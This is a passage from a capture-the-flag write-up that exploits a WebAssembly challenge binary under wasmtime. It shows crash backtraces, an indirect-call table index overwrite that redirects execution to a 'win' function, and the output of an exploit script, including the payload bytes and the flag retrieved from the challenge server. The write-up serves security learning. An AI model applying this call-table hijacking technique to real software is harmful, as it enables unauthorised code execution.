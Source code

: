 ```
           2:  0xa21 - <unknown>!__original_main
           3:  0x2fe - <unknown>!_start
       note: using the `WASMTIME_BACKTRACE_DETAILS=1` environment variable may show more debugging information
    2: wasm trap: indirect call type mismatch
[*] Process '/usr/bin/wasmtime' stopped with exit code 134 (pid 19365)
```
There is a crash, and the reason for it is "indirect call type mismatch". Indeed, if we go back to the `.wat` file, we see that `$win` has `type 1`, and `$diff` has `type 0`. This is due to the fact that `diff` takes one parameter, where `win` does not take any. Let's rather try to overwrite the `1`, for `basic`, which has `type 1` too. The index will then be `-12` instead of `-4`, and we trigger by calling "joke" instead of "math":
``` 
./exploit.py
[+] Starting local process '/usr/bin/wasmtime': pid 19585
[*] Switching to interactive mode
Error: failed to run main module `bin.wasm`

Caused by:
    0: failed to invoke command default
    1: error while executing at wasm backtrace:
           0: 0x375c - <unknown>!fclose
           1:  0x399 - <unknown>!win
           2:  0x8dd - <unknown>!menu
           3:  0x817 - <unknown>!menu
           4:  0xa21 - <unknown>!__original_main
           5:  0x2fe - <unknown>!_start
       note: using the `WASMTIME_BACKTRACE_DETAILS=1` environment variable may show more debugging information
    2: wasm trap: uninitialized element
[*] Process '/usr/bin/wasmtime' stopped with exit code 134 (pid 19585)
```
We get another error, but this time `win` appears in the backtrace! They mention in the challenge description that "the runtime has access to the current directory". By RTFM of `wasmtime`, we find the option `--dir`, which does exactly this. So, we create a "flag.txt" file with a fake flag, add `--dir .` to the options of `wasmtime`, and try again:
```
./exploit.py                                                                                            ✔ 
[+] Starting local process '/usr/bin/wasmtime': pid 20148
[*] Switching to interactive mode
INS{fake_flag}

Bye!

 AAAAAAAAAAAAAAAA\xf4\xff\xff\xff - 3 is gone
[*] Got EOF while reading in interactive
```
We see our fake flag! now let's try against the server:

```
./exploit.py
[+] Opening connection to tinderbox.insomnihack.ch on port 7171: Done
[*] Switching to interactive mode
INS{L00k_mUm!W1th0ut_toUch1ng_RIP!}

Bye!

 AAAAAAAAAAAAAAAA\xf4\xff\xff\xff - 3 is gone
[*] Got EOF while reading in interactive
```
And that's a flag! The final exploit can be found [here](./exploit.py).
